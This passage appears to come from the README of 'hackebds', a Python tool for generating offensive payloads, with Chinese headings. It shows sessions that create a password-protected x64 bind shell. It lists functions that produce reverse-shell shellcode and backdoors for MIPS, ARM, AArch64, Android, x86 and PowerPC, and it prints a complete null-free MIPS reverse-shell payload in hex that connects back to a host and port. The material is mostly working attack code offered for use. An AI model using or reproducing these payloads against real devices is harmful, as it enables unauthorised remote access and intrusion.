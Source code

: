 ![image-20221026181947194](https://img-blog.csdnimg.cn/img_convert/ad35bd8fc68cb44da974d7e28ac0cfe9.png)
```
>>> from hackebds import *
>>> x64_bind_shell(13000,"1235")
[+] bind port is set to 13000
[+] passwd is set to '1235'
[*] waiting 3s
[+] x64_bind_shell is ok in current path ./
```
![image-20221026182024685](https://img-blog.csdnimg.cn/img_convert/6d3d5e15bbaac7a91e98d290aa88c074.png)
#### 2. 生成对应各种架构的利用回连shellcode(no free无空字节
```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
>>> x86el_reverse_sl(reverse_ip,reverse_port)
>>> x64el_reverse_sl(reverse_ip,reverse_port)
>>> ppc_reverse_sl(reverse_ip,reverse_port)
>>> ppcle_reverse_sl(reverse_ip,reverse_port)
>>> ppc64_reverse_sl(reverse_ip,reverse_port)
>>> ppc64le_reverse_sl(reverse_ip,reverse_port)
```
列如:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## chips and architectures

Tests can leverage chips and architectures
